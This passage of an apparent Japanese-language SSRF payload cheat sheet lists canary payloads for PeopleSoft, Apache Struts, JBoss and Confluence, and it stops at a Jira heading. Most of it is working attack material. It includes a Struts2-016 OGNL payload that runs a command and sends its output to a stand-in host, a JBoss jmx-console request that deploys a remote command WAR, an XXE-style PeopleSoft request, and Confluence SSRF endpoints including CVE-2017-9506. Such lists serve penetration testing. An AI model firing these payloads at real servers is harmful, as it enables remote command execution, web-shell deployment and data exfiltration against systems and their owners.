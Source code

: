```http
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

<!DOCTYPE a PUBLIC "-//B/A/EN" "http://SSRF_CANARY">
```
# Apache Struts

**一般的にバインドされるポート: 80,443 (SSL),8080,8443 (SSL)**

[ここ](https://blog.safebuff.com/2016/07/03/SSRF-Tips/)から引用。

**SSRF カナリア: Struts2-016**:

既知のすべての内部エンドポイント/URLの末尾にこれを追加してください:
```http
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SSRF_CANARY/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```
# JBoss

**一般的にバインドされるポート: 80,443 (SSL),8080,8443 (SSL)**

[ここから取得](https://blog.safebuff.com/2016/07/03/SSRF-Tips/).

**SSRF カナリア: URL から WAR をデプロイする**
```bash
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://SSRF_CANARY/utils/cmd.war
```
# Confluence

**一般的にバインドされるポート: 80,443 (SSL),8080,8443 (SSL)**

**SSRF カナリア: Sharelinks (2016年11月以前にリリースされたConfluenceのバージョン)**
```bash
/rest/sharelinks/1.0/link?url=https://SSRF_CANARY/
```
**SSRF Canary: iconUriServlet - Confluence < 6.1.3 (CVE-2017-9506)**

[Atlassian Security Ticket OAUTH-344](https://ecosystem.atlassian.net/browse/OAUTH-344)
```bash
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://SSRF_CANARY
```
# Jira

**一般的にバインドされるポート: 80,443 (SSL),8080,8443 (SSL)**
